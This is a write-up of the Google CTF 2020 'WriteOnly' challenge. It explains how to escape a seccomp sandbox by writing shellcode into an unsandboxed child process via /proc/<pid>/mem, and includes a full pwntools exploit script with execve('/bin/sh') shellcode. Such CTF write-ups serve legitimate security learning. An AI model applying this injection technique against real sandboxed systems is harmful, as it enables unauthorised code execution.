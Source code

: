 ```yaml
---
layout: post
title: "Writeup for WriteOnly Google CTF - 2020"
date: 2020-08-24
excerpt: "Sandbox with shellcode exec"
---
```


We had a really great time this weekend playing this year's edition of Google CTF. Although we were able to solve only 2 of the pwn challenges , here's the intended writeup for the challenge *WriteOnly*.

## tl;dr

To begin with , we're just given a binary and it's source code. Skimming through the source code , we find the binary being hardened with seccomp bpf filter.

Here's the list of all the allowed syscalls.

```c
void setup_seccomp() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(stat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fstat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lstat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lseek), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mprotect), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(writev), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(access), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sched_yield), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup2), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(clone), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fork), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(vfork), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(kill), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(chdir), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fchdir), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(gettimeofday), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getuid), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getgid), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
  ret |= seccomp_load(ctx);
  if (ret) {
    exit(1);
  }
}

```

A surprise that the challenge has for us is that `Read` syscall is **not allowed**.

## Idea of exploit

Again, going through source code , we see a few things happening.

+ A child is created which opens and reads 4 bytes of flag constantly.
+ The parent sets up seccomp, asks for a length and takes our shellcode as input and gives us code execution right away.

```c
int main(int argc, char *argv[]) {
  pid_t pid = check(fork(), "fork");
  if (!pid) {
    while (1) {
      check_flag();
    }
    return 0;
  }

  printf("[DEBUG] child pid: %d\n", pid);
  void_fn sc = read_shellcode();
  setup_seccomp();
  sc();

  return 0;
}

```

An important thing to notice here is , seccomp is enabled in the parent **after** the child has been created. Hence , the child **does not** inherit seccomp, so how cool is that?

The only thing that we could think of was to somehow **write** to the child's memory and get code execution in child too. But the question was , what do we write to child and how do we do it?

### Delving into the exploit

As suggested by [Sherl0ck](https://twitter.com/sherl0ck__), we could open a pseudo file called **/proc/\<pid of child>/mem** and write to any segment of memory of the child , just like editing a binary in plain ghex :P. And what more , the program already prints the PID of child coupled with **PIE** being disabled , hence confirming our approach to exploitation.
    So now , another question that should pop in our minds now is , where do we write in the memory of child to get code execution? We can blithely overwrite the **return address** of child with our shellcode. There's another problem , remember that child will die if parent dies , so we have to make sure that the parent is alive throughout our journey of popping shell through child.

#### Overwriting return address of child

tl;dr of the plan is :

+ Open **/proc/\<pid of child>/mem** with read-write permissions.
+ using **lseek** syscall to seek to the return address of child.
+ Write shellcode to return address and finally loop parent so that it doesn't die out.

```python
from pwn import *
import sys

HOST = 'writeonly.2020.ctfcompetition.com'
PORT = 1337
context.arch = 'amd64'
if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./chal')

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)

if __name__=="__main__":
    #shellcode for execve /bin/sh

    shell = asm("""
                mov r9,0x0068732f6e69622f
                push r9
                push rsp
                pop rdi
                xor rsi,rsi
                xor rdx,rdx
                mov rax,0x3b
                syscall
                """)
    reu('child pid: ')
    pid = int(rel().strip(),10)
    log.info('pid -> ' + str(pid))

    #Adjusting /proc/pid/mem to 8 bytes and storing on stack
    sc = asm('''
    mov r9, 0x006d656d2f2f322f
    push r9
    mov r9, 0x2f2f636f72702f2f
    push r9
    push rsp
    pop rdi
    push rax
    mov r10,rax
    mov rsi,2
    mov rdx,0
    mov rax,2
    syscall                       #Open file with read-write permissions
    mov rdi,rax
    mov r8,rdi
    mov rax, 8
    mov rsi,0x00000000004022e3    #lseek requires the address we want to seek to as offset
    mov rdx,1
    syscall
    mov rax,1
    mov rdi,r8
    mov rsi,r10
    add rsi,0x100                 #Fetching shellcode's address into rsi and writing to file
    mov rdx,0x30
    syscall
    loop: jmp loop                #Make sure parent does not die
            '''.format("0x" + (str(pid) + '//')[::-1].encode('hex')))
    sc = sc.ljust(0x100,'\x00')
    sc += shell  
    log.info('sc len : ' + str(len(sc)))
    sla('length? ',str(len(sc) + 1))
    gdb.attach(io)
    sla('shellcode. ',sc)
    io.interactive()
```

## Conclusion

The challenge taught me yet another way of escaping seccomp sandbox through writing to child's memory. kudos to Google CTF for such a good challenge. 


